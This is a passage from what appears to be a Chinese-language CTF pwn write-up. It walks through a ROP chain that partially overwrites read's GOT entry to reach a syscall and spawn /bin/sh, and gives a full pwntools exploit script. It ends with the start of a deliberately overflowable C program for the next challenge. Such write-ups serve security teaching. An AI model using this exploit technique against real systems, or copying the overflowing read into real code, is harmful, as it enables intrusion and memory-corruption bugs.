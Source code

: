 下面两个都是syscall，当然具体情况要看自己的libc。

| Name        | eax  | ebx              | ecx                    | edx                    |
| ----------- | ---- | ---------------- | ---------------------- | ---------------------- |
| sys\_execve | 0x0b | char \_\_user \* | char \_\_user \_\_user | char \_\_user \_\_user |


所以大致思路是先将`/bin/sh`填入bss段，然后通过gadgets设置ebx指向bss段的`/bin/sh`，ecx设置为0；通过atoi的返回值把eax设置成0xb；edx没有gadgets，且最后调用syscall的时候edx正好为0。

(ps.后面两个参数要为0或指向0的指针)

也就是最后调用了execve("/bin/sh",0,0)。

poc：

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

cn = process('./pwn4_2')
bin = ELF('./pwn4_2')

def z():
	return 0
	#return raw_input()

p1ret = 0x080482e9
p3ret = 0x080484e9
p_ebx_ret = p1ret
pay = 'a'*0x28 + 'bbbb' 
pay += p32(bin.plt['read']) + p32(p3ret) + p32(0) + p32(bin.bss()) + p32(0x10)
pay += p32(bin.plt['read']) + p32(p3ret) + p32(0) + p32(bin.got['read']) + p32(1)
pay += p32(bin.plt['atoi']) + p32(p1ret) + p32(bin.bss() + 8)
pay += p32(p_ebx_ret) + p32(bin.bss())
pay += p32(bin.plt['read'])

z()
cn.send(pay)
z()
cn.send('/bin/sh\x0011')
z()
cn.send('\xdc')
z()

cn.interactive()
```


## pwn5

程序代码：

```cpp
#include <unistd.h>
#include <string.h>

void fun(){
    char buffer[0x20];
    read(0,buffer,0x200);
}

int main(){
    fun();
    return 0;
}
```